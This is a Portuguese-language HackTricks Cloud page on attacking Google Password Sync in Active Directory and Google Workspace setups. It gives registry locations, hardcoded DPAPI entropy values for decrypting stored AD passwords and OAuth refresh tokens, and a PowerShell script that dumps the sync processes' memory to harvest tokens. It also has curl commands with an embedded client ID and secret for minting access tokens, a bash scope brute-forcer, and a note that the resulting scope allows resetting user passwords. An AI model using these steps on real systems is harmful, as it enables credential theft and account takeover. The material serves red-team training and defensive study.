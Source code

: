# GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Informações Básicas

Este é o binário e serviço que o Google oferece para **manter sincronizadas as senhas dos usuários entre o AD** e o Workspace. Sempre que um usuário altera sua senha no AD, ela é definida no Google.

Ele é instalado em `C:\Program Files\Google\Password Sync`, onde você pode encontrar o binário `PasswordSync.exe` para configurá-lo e `password_sync_service.exe` (o serviço que continuará em execução).

### GPS - Configuração

Para configurar este binário (e serviço), é necessário **dar acesso a um principal Super Admin no Workspace**:

* Login via **OAuth** com o Google e então ele **armazenará um token no registro (criptografado)**
* Disponível apenas em Controladores de Domínio com GUI
* Fornecendo algumas **credenciais de Conta de Serviço do GCP** (arquivo json) com permissões para **gerenciar os usuários do Workspace**
* Ideia muito ruim, pois essas credenciais nunca expiram e podem ser mal utilizadas
* Ideia muito ruim dar acesso a uma SA sobre o workspace, pois a SA pode ser comprometida no GCP e será possível pivotar para o Workspace
* O Google exige isso para domínio controlado sem GUI
* Essas credenciais também são armazenadas no registro

Quanto ao AD, é possível indicar para usar o **contexto de aplicações atual, anônimo ou algumas credenciais específicas**. Se a opção de credenciais for selecionada, o **nome de usuário** é armazenado dentro de um arquivo no **disco** e a **senha** é **criptografada** e armazenada no **registro**.

### GPS - Extraindo senha e token do disco

{% hint style="success" %}
Note que [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) é capaz de detectar **GPS**, obter informações sobre a configuração e **até mesmo descriptografar a senha e o token**.
{% endhint %}

No arquivo **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** é possível encontrar parte da configuração, como o **`baseDN`** do AD configurado e o **`username`** cujas credenciais estão sendo usadas.

No registro **`HKLM\Software\Google\Google Apps Password Sync`** é possível encontrar o **token de atualização criptografado** e a **senha criptografada** para o usuário do AD (se houver). Além disso, se em vez de um token, algumas **credenciais de SA** forem usadas, também é possível encontrar essas criptografadas nesse endereço do registro. Os **valores** dentro deste registro são acessíveis apenas por **Administradores**.

A **senha** criptografada (se houver) está dentro da chave **`ADPassword`** e é criptografada usando a API **`CryptProtectData`**. Para descriptografá-la, você precisa ser o mesmo usuário que configurou a sincronização de senhas e usar esta **entropia** ao usar a **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

O token criptografado (se houver) está dentro da chave **`AuthToken`** e é criptografado usando a API **`CryptProtectData`**. Para descriptografá-lo, você precisa ser o mesmo usuário que configurou a sincronização de senhas e usar esta **entropia** ao usar a **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Além disso, também é codificado usando base32hex com o dicionário **`0123456789abcdefghijklmnopqrstv`**.

Os valores de entropia foram encontrados usando a ferramenta. Ela foi configurada para monitorar as chamadas para **`CryptUnprotectData`** e **`CryptProtectData`** e então a ferramenta foi usada para iniciar e monitorar `PasswordSync.exe`, que descriptografará a senha configurada e o token de autenticação no início, e a ferramenta **mostrará os valores da entropia usada** em ambos os casos:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Note que também é possível ver os **valores descriptografados** na entrada ou saída das chamadas para essas APIs também (caso em algum momento o Winpeas pare de funcionar).

Caso a sincronização de senhas tenha sido **configurada com credenciais de SA**, também será armazenada em chaves dentro do registro **`HKLM\Software\Google\Google Apps Password Sync`**.

### GPS - Extraindo tokens da memória

Assim como com GCPW, é possível extrair a memória do processo dos processos `PasswordSync.exe` e `password_sync_service.exe` e você poderá encontrar tokens de atualização e de acesso (se já tiverem sido gerados).\
Acho que você também poderia encontrar as credenciais configuradas do AD.

<details>

<summary>Dump <code>PasswordSync.exe</code> e os processos <code>password_sync_service.exe</code> e buscar tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Gerando tokens de acesso a partir de tokens de atualização

Usando o token de atualização, é possível gerar tokens de acesso utilizando-o e o ID do cliente e o segredo do cliente especificados no seguinte comando:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Escopos

{% hint style="info" %}
Observe que, mesmo tendo um token de atualização, não é possível solicitar nenhum escopo para o token de acesso, pois você só pode solicitar os **escopos suportados pela aplicação onde você está gerando o token de acesso**.

Além disso, o token de atualização não é válido em todas as aplicações.
{% endhint %}

Por padrão, o GPS não terá acesso como o usuário a todos os possíveis escopos OAuth, então, usando o seguinte script, podemos encontrar os escopos que podem ser usados com o `refresh_token` para gerar um `access_token`:

<details>

<summary>Script Bash para força bruta de escopos</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

E este é o resultado que obtive no momento da escrita:
```
https://www.googleapis.com/auth/admin.directory.user
```
Qual é o mesmo que você obtém se não indicar nenhum escopo.

{% hint style="danger" %}
Com este escopo, você poderia **modificar a senha de um usuário existente para escalar privilégios**.
{% endhint %}

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
